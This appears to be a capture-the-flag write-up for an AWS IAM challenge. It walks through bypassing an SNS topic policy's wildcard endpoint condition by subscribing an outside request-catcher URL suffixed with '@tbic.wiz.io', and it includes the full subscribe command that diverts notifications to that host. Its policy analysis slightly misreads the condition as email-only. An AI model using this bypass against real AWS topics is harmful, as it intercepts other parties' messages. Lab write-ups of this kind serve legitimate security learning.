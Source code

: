 # Challenge number
3

## Challenge Statement
Enable Push Notifications
We got a message for you. Can you get it?

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here
```
This policy allows anyone *(Principal: "*")* to subscribe to the SNS topic arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications and also there is a restriction that only email addresses matching the pattern *@tbic.wiz.io can be used as endpoint it means that while anyone can  subscribe only those with an email from the tbic.wiz.io domain can able to complete the process. 
```

## Solution
First I open https://docs.aws.amazon.com/cli/latest/reference/sns/subscribe.html doc to read about subscribe the by using this command
 ```
 aws sns subscribe \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com
```
In this command I edit my resource value in this command the in protocol I set it to Https and then in notication endpoint I use request catcher by using url follwed by given endipoint , so my command is looks like   
 
 ```
 aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol Https \
    --notification-endpoint https://bigiamchallenge3.requestcatcher.com/*@tbic.wiz.io
```
After the In the request catcher we got "SubscribeURL" coppy that url and paste it browser new window then again we see in request catcher browser window We got our flag value as given in "Message"

## Reflection
 
The experience showed to me the need of understanding  IAM policies and their use in resource authorization control systems. The SNS topic was accessible for subscription through the policy but the endpoint restriction required specific email addresses. The endpoint restriction made me to find solution using Request Catcher combined with other tools to collect the notification endpoint. This activity helped me deep my knowledge about AWS CLI command sns this  also showed the importance of detailed policy evaluation to develop alternate solutions when dealing with policy restrictions. This challenge provided an excellent opportunity to solve real-world problems while implementing knowledge of AWS to solve an actual practical scenario.